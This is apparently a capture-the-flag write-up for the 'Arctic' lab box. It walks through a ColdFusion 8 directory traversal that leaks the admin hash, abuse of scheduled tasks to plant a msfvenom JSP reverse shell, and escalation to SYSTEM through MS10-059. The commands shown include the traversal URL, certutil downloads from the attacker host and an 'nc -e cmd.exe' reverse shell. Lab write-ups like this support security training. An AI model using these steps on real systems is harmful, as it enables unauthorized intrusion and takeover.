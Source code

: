 ```yaml
---
title: Arctic
tags: windows
---
```


![image](assets/79369276-b1fb3c00-7f1e-11ea-94ee-c1afe128f2a3.png)

## Overview

Arctic is a Windows box running IIS and Cold Fusion 8.0.1. This version of Cold Fusion is vulnerable to directory traversal vulnerability that exposes the admin password hash. The cracked hash was found with a quick internet search and once logged in I was able to abuse the "schedule tasks" functionality of Cold Fusion to get a reverse shell. I used Windows-Exploit-Suggester (wes) to identify a list of potential exploits and used MS10-059 to create a reverse shell as 'nt authority\system'.

## Enumeration

* Microsoft Windows Server 2008 R2 Standard 6.1.7600 N/A Build 7600
* Cold Fusion 8.0.1.195765
* Java Version: 1.6.0_04

**Open Ports**

```
nmap -vv -Pn -sT -A --osscan-guess -p- 10.10.10.11 -oN /mnt/data/boxes/arctic/_full_tcp_nmap.txt
```

* 135/tcp - Microsoft Windows RPC
* 8500/tcp - http (Cold Fusion)
* 49154/tcp - Microsoft Windows RPC

## Steps (User)

After reviewing the nmap results I decide to start with port 8500. Opening a web browser and directing it to http://10.10.10.11:8500 shows a directory listing.

![image](assets/79500422-64540180-7ffa-11ea-83cc-435d71b3a208.png)

Clicking through some of the folders I came across http://10.10.10.11:8500/CFIDE/administrator which brought me to an Adobe Coldfusion 8 Administrator login page. 

![image](assets/79500694-dd535900-7ffa-11ea-8abd-10027b171c13.png)

I tried some common passwords (admin,password,etc) but none worked. A quick internet search for "coldfusion 8 exploit" turned up a directory traversal vulnerability

https://www.exploit-db.com/exploits/14641

I decided not to modify the python script because it was simple enough to paste the path directly into my browser - which revealed the password hash right on the logon page. 

http://10.10.10.11/CFIDE/administrator/enter.cfm?locale=..\..\..\..\..\..\..\..\ColdFusion8\lib\password.properties%00en

![image](assets/79500848-21def480-7ffb-11ea-9bb3-c8269e025e51.png)

Doing an internet search for the password hash is always worth a shot, in this case i came across a site that had already cracked the hash (sha1.gromweb.com) which I used to log in.

![image](assets/79501178-a03b9680-7ffb-11ea-9df7-f0b1b1986cc5.png)

```
2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03 (happyday)
```

Doing some searching on Cold Fusion 8 exploits I found that a scheduled task can be created to write data to a file which could be executed to create a reverse shell. https://nets.ec/Coldfusion_hacking. This requires that I host the file (via http) that I want to be copied to the target system.

> Note: There is an extra step if using an exe. Create a system probe that launches an .exe upon failure. The payload created with msfvenom needs to be created accordingly: msfvenom -p windows/shell_reverse_tcp LHOST=x.x.x.x LPORT=4200 -f exe -o shell_reverse.exe

To generate the payload I used MSFVenom and started up the python http server.

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.13 LPORT=4200 -o rshell.jsp
python3 -m http.server 80
```

I needed to find a path I could write to which this page very helpfully provided: http://10.10.10.11:8500/CFIDE/administrator/reports/index.cfm

![image](assets/79502019-070d7f80-7ffd-11ea-853f-44937b92323a.png)

**Steps to create the task**

* Click Debugging & Logging | Scheduled Tasks
* Click "Schedule New Task"
* Type in a task name
* Type in the path and name for the jsp file http://10.10.14.13/rshell.jsp
* Type in the path and name of the file: c:\wwwroot\CFIDE\rshell.jsp
* Click submit

![image](assets/79504054-34a7f800-8000-11ea-8233-d051bd0da304.png)

On the main schedule screen click "Run Scheduled Task"

![image](assets/79504117-4c7f7c00-8000-11ea-8187-60a3505d7daf.png)

The task ran successfully and downloaded the rshell.jsp file to the CFIDE folder

![image](assets/79504243-923c4480-8000-11ea-8ddc-accb190e8aa3.png)

I started up a netcat listener and clicked on the rshell.jsp file to run it and the target successfully called back.

```
nc -lvnp 4200
```

![image](assets/79504839-7b4a2200-8001-11ea-9927-74918dc44d42.png)

## Steps (root/system)

Since this is an older box I used Windows Exploit Suggester. For newer boxes there are other options such as wesng, Sherlock, or Watson.

According to wesng github page:

> I developed WES-NG because while GDSSecurity's Windows-Exploit-Suggester worked excellently for operating systems in the Windows XP and Windows Vista era, GDSSecurity's Windows-Exploit-Suggester does not work for operating systems like Windows 10 and vulnerabilities published in recent years. This is because Microsoft replaced the Microsoft Security Bulletin Data Excel file [1] on which GDSSecurity's Windows-Exploit-Suggester is fully dependent, by the MSRC API [2]. The Microsoft Security Bulletin Data Excel file has not been updated since Q1 2017, so later operating systems and vulnerabilities cannot be detected. 

Moving forward with wes; this tool requires the output of the systeminfo command which I pasted to a file called "sysinfo.txt"

> [Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) github repo.

```
./windows-exploit-suggester.py -l --database 2019-11-17-mssb.xls --systeminfo sysinfo.txt
```

![image](assets/79505874-142d6d00-8003-11ea-82b3-1f7de8280abe.png)

> In the results [E] means exploitdb POC, and [M] means metasploit module.

This box appears to be vulnerable to MS10-059 which can be downloaded from here https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059

> This may go without saying but use caution when downloading/using exploits from sites like this where you can't view the source code to see what it's doing. 

I put a copy of the exploit and netcat into my working directory and used the certutil utility to download them to the target box.

```
local: cp ~/tools/windows-binaries/nc.exe .
local: wget https://github.com/SecWiki/windows-kernel-exploits/raw/master/MS10-059/MS10-059.exe
local: nc -lvnp 4201
target: certutil -urlcache -split -f http://10.10.14.13/MS10-059.exe
target: certutil -urlcache -split -f http://10.10.14.13/nc.exe
```

This exploit takes a parameter and runs it in an elevated context. I decided to go with netcat to create a reverse shell.

```
ms10-059.exe "nc -e cmd.exe 10.10.14.13 4201"
```

I received a callback and had a shell as 'nt authority/system'

![image](assets/79507638-13e2a100-8006-11ea-8a9b-1f7a588b4516.png)

